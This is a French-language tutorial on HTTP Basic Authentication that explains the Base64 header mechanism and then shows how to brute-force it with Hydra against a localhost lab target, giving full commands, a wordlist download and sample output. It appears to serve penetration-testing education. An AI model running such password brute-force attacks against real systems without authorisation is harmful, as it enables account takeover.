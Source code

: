 # Basic HTTP Authentication

***

## <mark style="color:red;">**1. Introduction**</mark>

L'**authentification HTTP basique** (ou Basic Auth) est un mécanisme simple utilisé pour protéger des ressources web. Bien qu'il soit facile à mettre en œuvre, il présente des vulnérabilités de sécurité qui en font une cible fréquente pour les attaques par force brute.

***

## <mark style="color:red;">**2. Fonctionnement de l'authentification HTTP basique**</mark>

Basic Auth repose sur un protocole de **challenge-réponse**. Voici les étapes principales :

1. **Demande initiale**\
   Un utilisateur tente d'accéder à une ressource protégée sur un serveur web.
2. **Réponse du serveur**\
   Le serveur répond avec un **code 401 Unauthorized** et inclut un en-tête `WWW-Authenticate` pour demander les identifiants.
3. **Envoi des identifiants**
   * L'utilisateur fournit un **nom d'utilisateur** et un **mot de passe** dans une fenêtre de connexion.
   * Le navigateur les concatène en une chaîne sous le format `username:password`.
   *   Cette chaîne est ensuite encodée en **Base64** et incluse dans l'en-tête `Authorization` de la requête suivante :

       ```
       Authorization: Basic <credentials_encodés>
       ```
4. **Validation**\
   Le serveur décode la chaîne Base64, compare les identifiants avec sa base de données, et :
   * Accorde l'accès si les identifiants sont corrects.
   * Refuse l'accès en cas d'erreur.

***

## <mark style="color:red;">**3. Exemple pratique**</mark>

**Requête HTTP avec Basic Auth**

Une requête HTTP GET utilisant Basic Auth pourrait ressembler à ceci :

```
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

Dans cet exemple :

* `YWxpY2U6c2VjcmV0MTIz` est la version encodée en Base64 de `alice:secret123`.

***

## <mark style="color:red;">**4. Exploitation de Basic Auth avec Hydra**</mark>

Basic Auth est une cible courante pour les attaques par force brute. **Hydra** est un outil puissant pour réaliser ce type d'attaque.

<mark style="color:green;">**Commandes Hydra**</mark>

1.  **Télécharger une liste de mots de passe**\
    Si vous n'avez pas de liste, vous pouvez en télécharger une comme celle des mots de passe les plus utilisés :

    {% code overflow="wrap" fullWidth="true" %}
    ```bash
    curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
    ```
    {% endcode %}
2.  **Lancer une attaque brute-force avec Hydra** Voici un exemple de commande Hydra pour une cible utilisant Basic Auth :

    {% code overflow="wrap" %}
    ```bash
    hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
    ```
    {% endcode %}

<mark style="color:green;">**Explication de la commande :**</mark>

* `-l basic-auth-user` : Spécifie le nom d'utilisateur à utiliser pour les tentatives de connexion.
* `-P 2023-200_most_used_passwords.txt` : Utilise une liste de mots de passe pour tester chaque mot de passe.
* `127.0.0.1` : L'adresse IP cible (ici, localhost).
* `http-get /` : Indique que l'attaque cible une ressource accessible via une requête HTTP GET au chemin `/`.
* `-s 81` : Spécifie que le service HTTP utilise le port 81 au lieu du port par défaut (80).

<mark style="color:green;">**Analyse des résultats**</mark>

Hydra effectuera des essais systématiques pour chaque mot de passe de la liste et renverra le mot de passe correct une fois trouvé. Voici un exemple de résultat :

```
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: secret2024
```

***
